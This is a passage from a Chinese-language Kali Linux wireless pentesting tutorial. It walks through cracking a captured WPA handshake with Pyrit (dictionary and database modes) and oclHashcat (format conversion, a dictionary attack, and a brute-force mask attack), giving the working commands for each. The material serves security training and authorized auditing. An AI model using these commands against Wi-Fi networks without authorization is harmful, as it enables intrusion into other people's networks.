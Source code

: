 ![Pyrit](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-wrls-pentest-ess/img/B04527_05_12.jpg)

这里，`attack_passthrough`指定了使用字典文件的攻击，`-r`指定了数据包捕获，`-i`指定了要使用的单词列表。

在第二种情况下，当使用数据库时，我们首先将 ESSID 添加到数据库中：

```
pyrit -e InfostradaWiFi-201198 create_essid

```

现在，我们将字典文件导入数据库：

```
pyrit -i wparockyou.txt import_passwords

```

![Pyrit](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-wrls-pentest-ess/img/B04527_05_13.jpg)

然后，我们使用以下命令从相关密码计算 PMKs：

```
pyrit batch

```

最后，我们可以运行破解过程：

```
pyrit -r wpa_crack-01.cap attack_db

```

## oclHashcat

oclHashcat 工具是一个强大的基于 GPGPU 的多哈希破解工具，支持 CUDA 和 OpenCL API。

OclHashcat 是流行的**Hashcat**工具的 GPGPU 版本，它是以前版本*oclHashcat-plus*和*oclHashcat-lite*的融合。它支持许多哈希算法攻击，其中包括字典和暴力攻击。

OclHashcat 不接受以`.cap`格式的数据包捕获，而必须将其转换为自己的格式`.hccap`。为此，我们可以使用 aircrack-ng：

```
aircrack-ng wpa_crack-01.cap -J wpa_crack-01.hccap

```

要对捕获的握手进行字典攻击，使用以下命令：

```
oclHashcat -m 2500 wpa_crack-01.hccap wparockyou.txt

```

这里，`-m 2500`指定了 WPA 攻击模式。

例如，要对由四个小写字母和四个数字组成的八个字符 PSK 进行暴力破解攻击，我们需要运行以下命令：

```
oclHashcat -m 2500 -a 3 wpa_crack-01.hccap ?l?l?l?l?d?d?d?d

```
